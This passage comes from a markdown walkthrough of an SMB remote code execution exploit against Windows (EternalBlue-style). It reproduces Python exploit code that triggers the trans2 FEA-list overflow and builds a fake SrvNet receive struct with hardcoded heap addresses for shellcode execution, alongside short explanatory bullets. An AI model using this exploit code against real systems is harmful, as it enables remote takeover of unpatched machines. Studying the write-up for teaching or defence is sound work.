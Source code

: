 	# send last fragment to create buffer in hole and OOB write one of srvnetConn struct header
	# second trigger, place fake struct and shellcode
	send_trans2_second(conn, tid, feaList[progress:], progress)
	recvPkt = conn.recvSMB()
	retStatus = recvPkt.getNTStatus()
	if retStatus == 0xc000000d:
		print('good response status: INVALID_PARAMETER')
	else:
		print('bad response status: 0x{:08x}'.format(retStatus))
    ```
    - This packet specifies a data count thats larger than the actual SMB buffer size causing and overflow and out-of-bounds write to occur
    - This overflow actually overwrites function pointer or SMB message structures, giving us a section of memory to execute code.
    - The exploit actually targets specific regions of memory where function calls or SMB message descriptors are stored.
### 4. Inject and execute custom shellcode on the target
- We send a packet that has our embeded shellcode
    ```
    # fake struct for SrvNetWskTransformedReceiveComplete() and SrvNetCommonReceiveHandler()
    # x64: fake struct is at ffffffff ffd00e00
    #   offset 0x50:  KSPIN_LOCK
    #   offset 0x58:  LIST_ENTRY must be valid address. cannot be NULL.
    #   offset 0x110: array of pointer to function
    #   offset 0x13c: set to 3 (DWORD) for invoking ptr to function
    # some useful offset
    #   offset 0x120: arg1 when invoking ptr to function
    #   offset 0x128: arg2 when invoking ptr to function
    #
    # code path to get code exection after this struct is controlled
    # SrvNetWskTransformedReceiveComplete() -> SrvNetCommonReceiveHandler() -> call fn_ptr
    fake_recv_struct = (b'\x00'*16)*5
    fake_recv_struct += pack('<QQ', 0, TARGET_HAL_HEAP_ADDR+0x58)  # offset 0x50: KSPIN_LOCK, (LIST_ENTRY to itself)
    fake_recv_struct += pack('<QQ', TARGET_HAL_HEAP_ADDR+0x58, 0)  # offset 0x60
    fake_recv_struct += (b'\x00'*16)*10